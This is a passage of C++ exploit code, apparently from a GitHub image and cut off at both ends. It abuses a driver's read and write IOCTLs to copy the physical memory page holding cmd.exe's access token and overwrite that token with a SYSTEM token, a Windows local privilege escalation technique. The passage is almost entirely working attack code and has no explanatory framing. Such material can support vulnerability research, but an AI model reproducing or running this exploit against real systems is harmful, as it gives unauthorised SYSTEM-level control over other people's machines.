 ```cpp
    }
}

void write(HANDLE hFile) {

    DWORD modulus = cmd_token_address % 0x1000;
    INT64 cmd_page = cmd_token_address - modulus;
    DWORD bytes_ret = 0x0;
    DWORD read_num_bytes = modulus;

    PBYTE output_buff = (PBYTE)VirtualAlloc(
        NULL,
        modulus + 0xc,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    READ_INPUT_BUFFER input_buff = { cmd_page, read_num_bytes };

    if (!DeviceIoControl(
        hFile,
        READ_IOCTL,
        &input_buff,
        0x40,
        output_buff,
        modulus + 0xc,
        &bytes_ret,
        NULL))
    {
        cout << "[!] Failed the read operation to copy the cmd.exe page...\n";
        cout << "[!] Last error: " << hex << GetLastError() << "\n";
        exit(1);
    }

    PBYTE results = (PBYTE)((INT64)output_buff + 0xc);

    PBYTE cmd_page_buff = (PBYTE)VirtualAlloc(
        NULL,
        modulus + 0x8,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
   

    DWORD num_of_bytes = modulus + 0x8;

    INT64 start_address = cmd_token_address;
    cout << "[>] cmd.exe token located at: " << hex << start_address << "\n";
    INT64 new_token_val = system_tokens.token_value[0];
    cout << "[>] Overwriting token with value: " << hex << new_token_val << "\n";

    memcpy(cmd_page_buff, results, modulus);
    memcpy(cmd_page_buff + modulus, (void*)&new_token_val, 0x8);

    // PhysicalAddress
    // NumberOfBytes
    // Buffer to be copied into system space
    BYTE input[0x1000] = { 0 };
    memcpy(input, (void*)&cmd_page, 0x8);
    memcpy(input + 0x8, (void*)&num_of_bytes, 0x4);
    memcpy(input + 0xc, cmd_page_buff, modulus + 0x8);

    if (DeviceIoControl(
        hFile,
        WRITE_IOCTL,
```